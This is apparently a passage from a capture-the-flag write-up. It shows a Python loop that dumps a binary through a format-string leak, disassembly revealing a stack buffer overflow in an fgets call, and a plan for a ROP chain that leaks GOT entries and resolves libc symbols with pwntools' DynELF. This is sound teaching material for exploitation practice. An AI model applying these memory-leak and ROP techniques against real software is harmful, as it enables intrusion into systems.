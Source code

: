 ```python
base_addr = 0x400000

leaked = ""

with open("./out.elf") as f:
    leaked = f.read()

import gc

try:
    while len(leaked) < 32000:
        addr = base_addr + len(leaked)
        x = fmtleaker(addr)
        if x:
            leaked += x
        else:
            leaked += "\xff"
        log.info(hexdump(leaked))

        if len(leaked) % 128 == 0:
            log.info("saving in the middle")
            gc.collect()
            with open("out.elf", "wb") as f:
                f.write(leaked)
            gc.collect()

    log.info(hexdump(leaked))
finally:
    with open("out.elf", "wb") as f:
        f.write(leaked)
```


I noticed something fishy in the main function:

```
0x00400808      488b15b90420.  mov rdx, qword [0x00600cc8] ; probably stdin
0x0040080f      488d85f0f7ff.  lea rax, [rbp - local_810h] ; <-- fishy here
0x00400816      be00090000     mov esi, 0x900              ; this looks like a buffer overflow
0x0040081b      4889c7         mov rdi, rax
0x0040081e      e8fdfdffff     call fgets
```

The buffer is at `ebp - 0x810` but `fgets` is called with a length of 0x900. 
So we have a stack based buffer overflow. It doesn't look like there are stack
canaries. I whipped up a quick ROP chain that 

- leaks two address from the GOT (`fgets` and `setvbuf`)
- calls main again

Then I tried to look up the offset of the two functions in various libc
databases to find the offset of system, but had no luck.

But we can use the `DynELF` feature of pwntools, which searches the
datastructures of the dynamic linker to lookup symbols, given a reliable info 
leak.
